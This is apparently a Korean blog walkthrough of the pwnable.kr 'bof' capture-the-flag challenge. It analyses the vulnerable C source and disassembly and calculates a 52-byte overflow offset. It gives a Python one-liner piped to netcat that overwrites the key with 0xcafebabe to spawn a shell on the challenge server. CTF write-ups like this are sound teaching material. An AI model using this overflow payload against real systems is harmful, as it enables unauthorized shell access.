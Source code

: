 ```yaml
---
toc: True
tags: pwnable.kr system-hacking
---
```


# 첫인상

![image](https://user-images.githubusercontent.com/67637935/144156030-3a77df24-6811-48a2-8bb2-6a6b7975e2b0.png)

* 해당 문제는 기존의 flag를 획득하는 문제와 달리 nc(netcat)으로 해당 server에 접근해, flag의 값을 확인하는 문제이다.
* 두개의 파일을 다운로드 후 문제를 해독하라고 명시되어있기에 다운을 받고 해당 실행파일과, 코드를 분석진행하였다.
  * (window cmd에서 wget 사용하기: https://leesk212.github.io/Window-CMD%EC%97%90-wget%EC%B6%94%EA%B0%80%ED%95%98%EA%B8%B0/)

![image](https://user-images.githubusercontent.com/67637935/144156715-d99d1d6c-4b28-4f7f-b71a-87e14e80fc7f.png)

* bof 디버깅해야하기에 포트포워딩을 설정해주고 linux os에 붙어서 추가적인 진행을 하였다.
  * (sshd 외부 접근 설정: https://leesk212.github.io/Linux-Setting-ssh/) 

# 접근

## bof.c 파일 분석

![image](https://user-images.githubusercontent.com/67637935/144161062-821cdd48-da5b-4498-84fe-d0243bc14a96.png)

* main에서 0xdeadbeef 값을 인자로 func함수를 호출한다.
* func함수에서는 main에서 넘겨준 인자를 key라는 변수로 받는다.
* 또한 overflowme라는 변수에 값을 입력 받은 이후, key가 ```0xcafebabe```와 같은 경우, 해당 시스템의 sh를 실행시킬 수 있는 함수이다.
* 실행파일을 disas해서 분석을 진행해야한다

## bof 파일 리버싱 진행
![image](https://user-images.githubusercontent.com/67637935/144166827-6287dcb4-585c-4782-9fca-1bdd11e80902.png)

* func함수에서 두번째 call하는 부분이 gets함수가 실행되는 부분이다. 
* 또한 cmp를 통해서 비교하는 곳이 key값과 비교하는 위치기에 [%ebp+0x8]이 key의 변수가 갖고 있는 값일 것이다.
* 그렇다면 overflowme의 시작 주소로부터 일정량을 덮어쓰고, key의 변수에 0xcafabebe를 넣으면 overflow가 진행될 것이다.
* 이때 gets함수를 통해 불러오는 위치가 ebp-0x2c임을 확인할 수 있다.

![bof_ex_pic](https://user-images.githubusercontent.com/67637935/144168074-b7589da5-0c94-43a5-9006-d700f7405c24.png)

* 그렇다면 현재 상태가
  * overflowme -> ebp-0x2c
  * key -> ebp+0x8 임으로 
* 두 변수 사이의 거리는 ```ebp+0x8 - (ebp-0x2c) = 0x8+0x2c = 0x34```이다. (10진수로는 52이다.)
* 그렇다면 52byte만큼 아무 숫자를 넣고 key값인 ```0xcafebabe```를 넣어주면 될 것이다.

# 공격진행
* 이번에도 python을 활용하여 공격을 진행하였다. 
* python -c 를 통하여 덮어 씌울만큼의 52byte의 값을 작성하고 그 뒤, key와 같은 값을 작성을 진행하였다.
* [python 2.7]```(python -c 'print "a"*52 + "\xBE\xBA\xFE\xCA"'; cat) | nc pwnable.kr 9000``` 
* [python 3.x]```(python -c "print('a'*52+'\xBE\xBA\xFE\xCA')";cat) | nc pwnable.kr 9000```

* 성공적으로 쉘을 획득하게 되었다면 ls-al로 해당 서버의 파일 중 flag가 있는지 확인한다. 

![image](https://user-images.githubusercontent.com/67637935/144169893-a886c6b7-7f84-4508-acf1-b33fc4534e5e.png)

* flag가 읽을 수 있는 권한이 있기에, cat flag를 통해 flag 획득 성공!

![image](https://user-images.githubusercontent.com/67637935/144169953-e8aa684c-88d9-4344-8455-7b4ecdf89932.png)


# ref
* https://hackingisly.tistory.com/14
* https://stfwlg.github.io/archivers/pwnable.kr-_bof_%ED%92%80%EC%9D%B4
* https://icmp-ycdi.tistory.com/50
